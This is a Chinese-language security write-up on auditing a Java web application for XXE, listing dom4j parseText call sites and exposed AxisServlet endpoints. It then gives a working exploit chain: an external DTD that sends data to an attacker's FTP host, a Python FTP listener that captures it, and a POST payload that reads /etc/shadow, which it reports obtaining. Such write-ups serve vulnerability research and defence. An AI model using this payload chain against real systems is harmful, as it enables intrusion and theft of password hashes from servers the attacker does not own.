 ## XXE 审计与利用思路

第一处出现在系统使用的org.dom4j.DocumentHelper调用的类函数下。

在源码中搜索关键字DocumentHelper.parseText

得到：

```bash
\xxx\***\***.java 
Line 303:    document = DocumentHelper.parseText(xml);

\xxx\***\XmlParser.java 
Line 51:    Document doc = DocumentHelper.parseText(xmlStr);

\\xxx\***\***Task.java 
Line 350:    Document document = DocumentHelper.parseText(result);

\\xxx\***\***Action.java 
Line 237:    Document document = DocumentHelper.parseText(mapDataForOut);

\\xxx\***\xxxAction.java 
Line 259:    Document document = DocumentHelper.parseText(mapDataForOut);

\\xxx\***\xxx.java 
Line 120:    Document doc = DocumentHelper.parseText(policyXml.replaceAll("_lnx", ""));
Line 125:    doc = DocumentHelper.parseText(node.asXML());

\\xxx\***tion.java 
Line 109:    Document doc = DocumentHelper.parseText(xmlStr);

\\xxx\***.java 
Line 58:    doc = DocumentHelper.parseText(xml); // 将字符串转为XML

\xxx\***.java 
Line 92:    doc = DocumentHelper.parseText(xml);
Line 97:    oldDoc = DocumentHelper.parseText(vaildXml);

\\xxx\***ObjConverter.java 
Line 173:     Document document = DocumentHelper.parseText(xml);

\\xxx\***.java 
Line 949:     doc = DocumentHelper.parseText(infor.getContent());

\\xxx\***Utility.java 
Line 1203:     Document doc = DocumentHelper.parseText(result);

\\xxx\***xxxService.java 
Line 177:     Document doc = DocumentHelper.parseText(requestHeader);

\xxx\***\EventParser.java 
Line 83:    Document doc = DocumentHelper.parseText(xmlStr);
Line 185:    Document doc = DocumentHelper.parseText(xmlStr);
Line 229:    Document doc = DocumentHelper.parseText(xmlStr);
Line 306:    DocumentHelper.parseText(contentXml)).replaceAll("<", "&lt;").replaceAll(">", "&gt;").replaceAll("==amp;",  

\\xxx\***\XMLMessageUtil.java 
Line 24:    doc = DocumentHelper.parseText(xml);
Line 131:    tempDoc = DocumentHelper.parseText(xml);
Line 224:    document = DocumentHelper.parseText("<a><b></b></a>");

\xxx\***\XmlParser.java 
Line 51:    Document doc = DocumentHelper.parseText(xmlStr);

\\xxx\***.java 
Line 244:    Document doc = DocumentHelper.parseText(xmlStr);

```

其中，`\xxx\***\XMLMessageUtil.java`

![](images/security_wiki/15906403425540.png)


代码中 使用org.dom4j.DocumentHelper.parseTest解析XML文件

第二处，发现位置是在查看web.xml文件中AxisServlet的servlet-mapping配置，发现URL地址包含以下路径或后缀就可被攻击利用

```bash
***\WebRoot\WEB-INF\web.xml 
xxx\***\WebRoot\WEB-INF\web.xml
<servlet-mapping>
<servlet-name>AxisServlet</servlet-name>
       <url-pattern>/servlet/AxisServlet</url-pattern>
   </servlet-mapping>  
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>*.jws</url-pattern>
   </servlet-mapping>
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>/services/*</url-pattern>
   </servlet-mapping> 

```

在通过访问以下URL即可访问到AxisServlet服务，可对其进行XXE漏洞攻击。

```
https://www.baidu.com/xxx/servlet/AxisServlet
https://www.baidu.com/***/servlet/AxisServlet

```

### poc

0x1:

在复现时由于目标主机无法访问外网，所以需要在本地主机上搭建测试环境，具体的复现过程如下（嗯额这里感谢一下同事）：

* 1）新建目录xxe_test，复制下面文件放入

test.dtd

```xml
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://ip/%data3;'>">

```

* 2)在xxe_test目录下运行如下命令，监听8080端口（检查防火墙是否开放该端口）

Python -m SimpleHTTPServer 8080

* 3)运行以下脚本，启动ftp服务器（检查防火墙是否开放21端口）

> Python xxe-ftp.py

```python
#!/usr/env/python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0',21))
s.listen(1)
print('XXE-FTP listening ')
conn,addr = s.accept()
print('Connected by %s',addr)
conn.sendall('220 Staal XXE-FTP\r\n')
stop = False
while not stop:
    dp = str(conn.recv(1024))
    if dp.find("USER") > -1:
        conn.sendall("331 password please - version check\r\n")
    else:
        conn.sendall("230 more data please!\r\n")
    if dp.find("RETR")==0 or dp.find("QUIT")==0:
        stop = True
    if dp.find("CWD") > -1:
        print(dp.replace('CWD ','/',1).replace('\r\n',''),end='')
    else:
        print(dp)

conn.close()
s.close()

```

* 4)发送以下报文：

```bash
POST /xxx/*** HTTP/1.1
Host: www.baidu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: https://target_ip/xxx/***.jsp
ContentType: pplication/x-www-form-urlencoded
Cookie: JSESSIONID=WwV5E_ZpZVWhnIKEaFuuphs1.localhost; ops.cookie.principal=xxxxx
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 159

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://Your_IP/test.dtd">
%sp;
%param3;
%exfil;
]>

```

![](images/security_wiki/15906403819340.png)


**漏洞截图**：

0x1:

成功获取到受害主机的/etc/shadow文件

![](images/security_wiki/15906403895336.png)


